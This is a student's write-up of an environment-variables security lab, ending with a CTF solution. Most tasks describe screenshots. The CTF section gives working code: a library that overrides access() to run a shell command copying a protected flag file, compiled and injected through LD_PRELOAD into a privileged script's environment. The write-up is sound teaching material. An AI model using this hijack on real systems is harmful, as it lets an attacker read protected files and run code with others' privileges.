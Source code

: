 # Trabalho realizado na Semana #4

## Task 1

- After running printenv
![printenv](../images/image.png)

- After running printenv PWD to specify the variable
![printenv pwd](../images/image-1.png)

- Changing PWD from "/home/seed" to "/home" with export
![export](../images/image-2.png)

- Unsetting the PWD variable

![unset](../images/image-3.png)

## Task 2

- With line 2 commented out, this is the output of myprintenv.c, which we passed to a file.
![first run](../images/image-4.png)

- With line 2 uncommented and line 1 commented out, the output looks like this:
![second run](../images/image-5.png)

- After using the diff command, we can see there are no differences between the programs' outputs.
![diff](../images/image-6.png)

## Task 3


This task's objective is to analyse the behaviour of environment variables when the program is executed via the execve() function.

- After executing myenv.c with the "NULL" expression as the function's third parameter, the output of the program is null. 
![myenv1](../images/image-8.png)

- Now with the variable "environ" as the third parameter:
![myenv2](../images/image-9.png)



When the parameter was "NULL", the environment variables could not be registered there, but when we changed to a non-null variable, the environment variables are registered and then outputted.

## Task 4

In this task, we will use the system() function instead of execve(), which means that, instead of executing the command directly, we will first ask the shell to run it.

- By using the system() function and asking the shell to run the command, we have access to root privileges.
![system](../images/image-7.png)

## Task 5

- After altering altering the MY_VAR and LD_LIBRARY_PATH variables, we were suprised to find that the LD_LIBRARY_PATH variable does not print after running the program.
![task5](../images/image-10.png)


## Task 6

- We altered the code in the foo.c file to run the ls program (as shown below)
![Alt text](../images/image-12.png)
- The ls.c program will use geteuid() to find out if we have root privileges:
![geteuid](../images/image-13.png)
- Final result:
![terminal](../images/image-11.png)


## CTF

We present below the code we used to complete the CTF.
>Write what's in flag.txt to a file in another directory we can access.
>```
>echo "#include <stdlib.h>
>#include <stdio.h>
>int access(const char *pathname, int mode) { 
>   system(\"/usr/bin/cat /flags/flag.txt > /tmp/myfile.txt \");
>   return 0;
>} " >> printenv.c
>```
>Create a library with our printenv.c.
>```
>gcc -fPIC -g -c printenv.c 
>gcc -shared -o libmylib.so.1.0.1 printenv.o -lc 
>```
>Preloads the library to env file, which is used in the script back in /flag_reader, so that our code runs before any other library. 
>```
>echo "LD_PRELOAD=/tmp/libmylib.so.1.0.1" >> env 
>```
>Change file permissions.
>```
>touch myfile.txt
>chmod 777 myfile.txt 
>```
>Immediately after the script in the flag_reader folder is executed to get the content from the file.
>```
>cat myfile.txt 
>```
